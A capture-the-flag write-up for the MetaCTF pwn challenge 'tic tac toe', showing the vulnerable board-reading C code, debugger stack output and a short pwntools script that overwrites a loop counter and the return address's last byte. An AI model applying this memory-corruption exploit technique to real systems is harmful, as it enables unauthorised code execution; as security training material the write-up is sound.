 ```yaml
---
title: "[pwn] tic tac toe"
categories:
  - CTF
tags:
  - pwn
  - overwiteLastByteRet
---
```


[tic tac toe [metaCTF]](https://github.com/v13td0x/Q4_21/raw/main/meta/pwn/Tic%20tac%20toe/tic_tac_toe_Release.tar.gz)

```apl
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

```c
int read_board(){
	char board[3][3]; // $rbp-0xa
	char counter = 0; // $rbp-0x1

	//read the board in
	while (counter < 9){
		while(1){
			read(0, (char*)board+counter++, 1);

			if (*((char *)board+counter-1) == '\n')
			{
				counter--;
				continue;
			}
			if (*((char*)board + counter-1) == 'o' 
			|| *((char*)board + counter-1) == 'O' 
			||*((char*)board + counter-1) == '0' 
			|| *((char*)board + counter-1) == 'x' 
			|| *((char*)board + counter-1) == 'X'){
				break;
			}
			puts("Bad Character, try again");
		}
	}
// if last byte was an x, X, o, O, or 0 program will check counter<9,
// otherwise continue read from input and write in stack at board[counter]
```

```bash
02:0010│ rsp     0x7fff2059f840 ◂— 0x767655b24517f0a0
03:0018│         0x7fff2059f848 ◂— 0x1376767676767676
04:0020│ rbp     0x7fff2059f850 —▸ 0x7fff2059f860 ◂— 0x0
05:0028│ rax rsi 0x7fff2059f858 —▸ 0x55b24517f645 (main+60) # ret
pwndbg> x/x $rbp-0x1
0x7fff2059f84f: 0x13 # counter = 13
pwndbg> x/x $rbp+8
0x7fff3d59caf8: 0x45 #last byte of ret addr
```

our strategy is changing last byte of ret addr `0x45 → 0x4f`, we will overwrite counter var = 0x12++. Because `board[counter=0x13] = last byte of ret addr` (0xa bytes of board + 8 byte rbp + 1 last byte ret). 

> Remember: we need 9 byte `not` in {x, X, 0, o, O} to not check counter and '\n' to increase counter var. Due to overwrite it.
> 

```python
# xpl.py
from pwn import *

p = remote("host.cg21.metaproblems.com", 3120)
p.send(b'v'*9 + b'\x12\x4f')
p.stream()
```
